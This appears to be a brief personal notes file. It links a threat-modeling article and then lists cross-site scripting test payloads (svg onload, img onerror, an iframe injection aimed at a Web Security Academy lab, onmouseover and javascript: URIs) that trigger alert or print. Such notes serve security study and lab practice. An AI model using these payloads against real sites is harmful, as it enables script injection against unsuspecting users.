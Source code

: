 # Notes
Threatspec  -- https://onehack.us/t/threatspec-continuous-threat-modeling-through-code/174377


"><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
"onmouseover="alert(1)
javascript:alert(1)
